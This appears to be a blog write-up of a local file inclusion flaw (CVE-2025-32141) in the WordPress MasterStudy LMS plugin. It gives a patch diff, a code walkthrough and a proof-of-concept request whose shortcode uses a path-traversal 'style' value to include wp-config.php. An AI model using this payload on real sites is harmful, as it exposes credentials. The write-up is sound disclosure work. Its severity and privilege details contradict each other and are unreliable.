

<!--more-->

## CVE & Basic Info

The **MasterStudy LMS** plugin version **≤ 3.5.28** contains a **Local File Inclusion (LFI)** vulnerability that allows an unauthenticated attacker to control the file parameter in the `include/require` statement, enabling the inclusion or reading of local files on the server (e.g., configuration files containing credentials). This can lead to sensitive information disclosure and, in certain configurations, remote code execution.

* **CVE ID**: [CVE-2025-32141](https://www.cve.org/CVERecord?id=CVE-2025-32141)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 3.5.28
* **Patched Versions**: 3.5.29
* **CVSS severity**: Low (8.8)
* **Required Privilege**: Contributor
* **Product**: [WordPress MasterStudy LMS Plugin](https://wordpress.org/plugins/masterstudy-lms-learning-management-system/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **MasterStudy LMS**: **3.5.28** (vulnerable) and **3.5.29** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to compare the two versions.

## Analysis

### Patch diff

**Vulnerable Version**:

```php {filename="stm_lms_courses_categories.php v3.5.28" hl_lines=[7,12]}
<?php
add_shortcode( 'stm_lms_courses_categories', 'stm_lms_courses_categories_shortcode' );
function stm_lms_courses_categories_shortcode( $atts ) {
    $atts = shortcode_atts(
        array(
            'taxonomy' => '',
            'style'    => 'style_1',
        ),
        $atts
    );
    ob_start();
    STM_LMS_Templates::stm_lms_load_vc_element( 'courses_categories', $atts, $atts['style'] );
    return ob_get_clean();
}
```

In the vulnerable version, the shortcode callback `stm_lms_courses_categories` directly passes the `style` value from `$atts` into `STM_LMS_Templates::stm_lms_load_vc_element()` without sanitization or validation — leading to a potential LFI.

**Patched Version**:

```php {filename="stm_lms_courses_categories.php v3.5.29" hl_lines=[7,12,14]}
<?php
add_shortcode( 'stm_lms_courses_categories', 'stm_lms_courses_categories_shortcode' );
function stm_lms_courses_categories_shortcode( $atts, $content = null, $tag = '' ) {
	$atts = shortcode_atts(
		array(
			'taxonomy' => '',
			'style'    => 'style_1',
		),
		$atts,
		$tag
	);
	$atts['style'] = basename( sanitize_file_name( $atts['style'] ) );
	ob_start();
	STM_LMS_Templates::stm_lms_load_vc_element( 'courses_categories', $atts, $atts['style'] );
	return ob_get_clean();
}
```

The patch sanitizes `$atts['style']` using [`sanitize_file_name()`](https://developer.wordpress.org/reference/functions/sanitize_file_name/), removing unsafe characters and preventing LFI.

### Vulnerable Code

```php {filename="templates.php v3.5.28" hl_lines=[3,7,8]}
public static function stm_lms_load_vc_element( $__template, $__vars = array(), $__template_name = '', $custom_path = '' ) {
    extract( $__vars ); // phpcs:ignore WordPress.PHP.DontExtract
    $element = self::stm_lms_locate_vc_element( $__template, $__template_name, $custom_path );
    if ( ! file_exists( $element ) && strpos( $__template_name, 'style_' ) !== false ) {
        $element = str_replace( $__template_name, 'style_1', $element );
    }
    if ( file_exists( $element ) ) {
        include $element;
    } else {
        echo esc_html__( 'Element not found in', 'masterstudy-lms-learning-management-system' );
        echo esc_html( ' ' . $element );
    }
}
```

The `include()` statement uses `$element` returned from `stm_lms_locate_vc_element()`, which is influenced by `$__template_name` (the `style` parameter from the shortcode). Without validation, an attacker can manipulate it to include arbitrary files, leading to LFI.

```php {filename="templates.php v3.5.28" hl_lines=[3,7,8]}
public static function stm_lms_locate_vc_element( $templates, $template_name = '', $custom_path = '' ) {
    $located = false;

    foreach ( (array) $templates as $template ) {

        $folder = $template;

        if ( ! empty( $template_name ) ) {
            $template = $template_name;
        }

        if ( substr( $template, -4 ) !== '.php' ) {
            $template .= '.php';
        }

        if ( empty( $custom_path ) ) {
            $located = locate_template( 'partials/vc_parts/' . $folder . '/' . $template );
            if ( ! ( $located ) ) {
                $located = STM_LMS_PATH . '/includes/shortcodes/partials/' . $folder . '/' . $template;
            }
        } else {
            $located = locate_template( $custom_path );
            if ( ! ( $located ) ) {
                $located = STM_LMS_PATH . '/' . $custom_path . '.php';
            }
        }

        if ( file_exists( $template_name ) ) {
            break;
        }
    }

    return apply_filters( 'stm_lms_locate_vc_element', $located, $templates );
}
```

The `stm_lms_locate_vc_element()` function determines and returns the path of the template file (`.php`).

If `$template_name` is provided, it **overrides the default template name** and ensures it ends with `.php`. The resulting file path becomes `STM_LMS_PATH/includes/shortcodes/partials/{folder}/{template}.php`.

For example, with `style=payload`, it returns:

```py
/srv/www/wordpress/wp-content/plugins/masterstudy-lms-learning-management-system/_core/includes/shortcodes/partials/courses_categories/payload.php
```

## Exploit

### Proof of Concept (PoC)

Create a post with a shortcode that includes an LFI payload in the `style` attribute:

```http {hl_lines=[4]}
POST /wp-json/wp/v2/posts/260?_locale=user HTTP/1.1
Host: localhost

{"id":260,"content":"<!-- wp:shortcode -->\n[stm_lms_courses_categories taxonomy=x style=../../../../../../../../wp-config]\n<!-- /wp:shortcode -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->"}
```

**Result**:

The debugger hits `wp-config.php`.



## Conclusion

Versions **≤ 3.5.28** of MasterStudy LMS are vulnerable to LFI via the `style` parameter in the shortcode due to unsanitized input used in an `include` statement. The patch in **3.5.29** sanitizes this input using `sanitize_file_name()` and `basename()`, preventing unauthorized file access.

## Key takeaways

* Never concatenate user input directly into file paths.
* Always sanitize or whitelist values before using them in `include` or `require`.
* Validate the resolved path to ensure it stays within the intended directory.
* Update to **v3.5.29** to eliminate this LFI vulnerability.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[WordPress MasterStudy LMS Plugin <= 3.5.28 is vulnerable to Local File Inclusion](https://patchstack.com/database/wordpress/plugin/masterstudy-lms-learning-management-system/vulnerability/wordpress-masterstudy-lms-plugin-3-5-23-local-file-inclusion-vulnerability?_s_id=cve)
